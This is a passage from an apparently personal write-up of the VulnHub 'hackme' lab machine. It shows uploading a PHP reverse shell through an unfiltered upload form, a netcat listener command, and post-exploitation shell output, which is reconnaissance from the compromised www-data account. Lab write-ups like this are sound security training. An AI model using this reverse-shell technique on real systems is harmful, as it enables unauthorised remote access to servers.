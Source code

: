 ![writeup.exploitation.steps.1.1](Box%20Write-ups/vulnhub.hackme/screenshot04.png)  

![writeup.exploitation.steps.1.2](Box%20Write-ups/vulnhub.hackme/screenshot05.png)  

![writeup.exploitation.steps.1.3](Box%20Write-ups/vulnhub.hackme/screenshot06.png)  

![writeup.exploitation.steps.1.4](Box%20Write-ups/vulnhub.hackme/screenshot07.png)  

![writeup.exploitation.steps.1.5](Box%20Write-ups/vulnhub.hackme/screenshot08.png)  

![writeup.exploitation.steps.1.6](Box%20Write-ups/vulnhub.hackme/screenshot09.png)  

2\. We log in to the web application as user `superadmin` and are presented with file upload functionality. We create a PHP reverse shell file and upload it successfully. There was no need to bypass any kind of upload filters in this case. The location for uploaded files is already known to be `192.168.92.180/uploads/` directory from the `gobuster` scan. We find our uploaded file within this directory and proceeded to get the initial shell:  
``` {.python .numberLines}
nc -nlvp 443
192.168.92.180/uploads/rs.php

```

![writeup.exploitation.steps.2.1](Box%20Write-ups/vulnhub.hackme/screenshot10.png)  

![writeup.exploitation.steps.2.2](Box%20Write-ups/vulnhub.hackme/screenshot11.png)  

![writeup.exploitation.steps.2.3](Box%20Write-ups/vulnhub.hackme/screenshot12.png)  

![writeup.exploitation.steps.2.4](Box%20Write-ups/vulnhub.hackme/screenshot13.png)  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
www-data@hackme> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@hackme>  
www-data@hackme> uname
Linux hackme 4.18.0-16-generic #17-Ubuntu SMP Fri Feb 8 00:06:57 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
www-data@hackme>  
www-data@hackme> ifconfig
ens33:  flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.92.180  netmask 255.255.255.0  broadcast 192.168.92.255
        inet6 fe80::20c:29ff:fe49:eab5  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:49:ea:b5  txqueuelen 1000  (Ethernet)
        RX packets 486204  bytes 304231697 (304.2 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 315253  bytes 40538335 (40.5 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
www-data@hackme>  
www-data@hackme> users
root
hackme
```
